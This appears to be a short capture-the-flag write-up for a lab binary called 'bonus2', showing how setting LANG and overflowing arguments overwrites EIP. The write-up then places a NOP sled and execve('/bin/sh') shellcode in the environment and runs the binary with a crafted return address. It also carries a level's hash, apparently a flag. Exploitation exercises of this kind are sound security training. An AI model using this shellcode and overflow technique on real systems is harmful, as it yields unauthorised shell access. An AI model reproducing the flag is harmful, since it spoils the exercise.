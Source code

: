 bonus2:579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

# Reconnnaissance

`LANG` env var change behavior of the binary

With this:
LANG=nl
`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC BBBBBBBBBBBBBBBBBBBBBBBXXXX`

We find out that we overwrite `eip` with the final `XXXX`.
Now lets find somewhere to write our shellcode.
Because the env is loaded, we can try to put the shell code in there.

Find the address of the env var in gdb:
```shell
(gdb) b *main +130
Breakpoint 1 at 0x80485ab
(gdb) run a a
Starting program: /home/user/bonus2/bonus2 a a

Breakpoint 1, 0x080485ab in main ()
(gdb) x $eax
0xbffffe7c:	0x90906c6e
```
address env => `0xbffffe7c` 

We put many `\x90` char, which is a `NOP` instruction (No Operation) and our shell code
```shell
export LANG=nl$(echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\x89\xc2\x6a\x0b\x58\xcd\x80")

./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 23 + "\x9c\xfe\xff\xbf"')
```